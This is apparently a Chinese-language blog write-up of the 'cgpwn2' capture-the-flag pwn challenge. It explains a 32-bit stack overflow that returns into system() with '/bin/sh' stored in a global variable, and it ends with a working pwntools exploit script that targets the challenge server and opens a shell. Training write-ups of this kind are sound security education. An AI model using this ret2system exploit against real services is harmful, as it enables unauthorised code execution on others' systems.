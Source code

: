 ```yaml
---
layout: post
title: 'PWN手的成长之路-20-cgpwn2'
date: "2025-10-20T00:44:06Z"
---
```

PWN手的成长之路-20-cgpwn2
===================

![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019200245995-1535055211.png)

file，checksec:  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019200417445-1225733321.png)

main 函数：  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019203736562-1688715362.png)

hello 函数：  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019203805163-136725188.png)  
name 中可以保存字符串，因此我们在 name 中输入 /bin/sh，那么我们就可以利用变量 name 的内存地址，得到 system('/bin/sh')，从而得到shell。

pwn 函数（存在system）：  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019203831722-572412605.png)

溢出大小为：0x26+4  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019204158927-1902179163.png)

我本来在ROPgadget中找到了 sh 字符串，但是一直无法成功得到shell，之后查看才得知，这个sh并不是单纯的 sh。草率了。但是不知道为什么 ciscn\_2019\_ne\_5 可以跑通。求师傅指教。  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019202950814-1805270485.png)  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019203053497-74047426.png)  
![image](https://img2024.cnblogs.com/blog/3703445/202510/3703445-20251019203124691-119137441.png)

payload加入main函数，原因：32位和64位的结构不同，32位调用一个函数需要返回地址，之后再调用其他的进行传参，而且32位是用栈传递参数的，而64为使用比如rdi，rsi等寄存器进行传参，因此需要插入一个 main 函数作为返回地址。

利用exp：

    from pwn import *
    
    #start 
    r = remote('61.147.171.35',63069)
    context.log_level = 'debug'
    elf = ELF('./pwn')
    
    #params
    #system_addr = 0x8048420
    system_addr = elf.sym['system']
    main_addr = elf.sym['main']
    name_addr = elf.sym['name']
    
    #attack
    payload = b'a'*(0x26+4) + p32(system_addr) + p32(main_addr) + p32(name_addr)
    r.sendlineafter(b'name',b'/bin/sh')
    r.sendline(payload)
    r.interactive()